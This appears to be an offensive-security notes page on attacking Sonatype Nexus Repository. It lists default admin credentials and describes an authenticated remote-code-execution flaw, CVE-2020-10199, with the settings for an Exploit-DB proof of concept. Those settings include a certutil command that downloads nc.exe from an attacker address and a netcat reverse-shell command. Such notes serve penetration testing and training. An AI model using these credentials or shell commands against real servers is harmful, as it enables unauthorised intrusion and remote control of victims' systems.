 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Sonatype Nexus

[Sonatype Nexus Repository](https://www.sonatype.com/products/sonatype-nexus-repository) is a repository manager that stores, organizes, and distributes software components, binaries, and build artifacts. It supports multiple package formats such as Maven, npm, NuGet, and Docker, allowing development teams to centralize dependencies and manage versioning efficiently. In offensive operations, Nexus can be a target for artifact manipulation, credential discovery, or lateral movement, as improperly secured repositories may expose sensitive binaries or access tokens.

## Default Credentials

The default credentials on versions `<3.17` are `admin:admin123`. On version `≥3.17` there is no default password as this is defined in the `/nexus-data/admin.password` during installation.

## Authenticated RCE

Sonatype Nexus Repository versions before `3.21.2` are affected by a Java Expression Language (JavaEL) injection vulnerability ([CVE-2020-10199](https://nvd.nist.gov/vuln/detail/CVE-2020-10199)). This flaw allows an attacker to inject and execute arbitrary Java code on the server by manipulating inputs processed through JavaEL expressions. A working [PoC](https://www.exploit-db.com/exploits/49385) is available:

```bash
$ searchsploit nexus 3.21
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated) | java/webapps/49385.py
```

The below PoC allows to achieve RCE by mofidying the below variables:

```python
URL='http://192.168.156.61:8081'
#CMD='certutil.exe -urlcache -split -f http://192.168.45.241/nc.exe nc.exe'
CMD='nc.exe -e cmd.exe 192.168.45.241 443'
USERNAME='nexus'
PASSWORD='nexus'
```
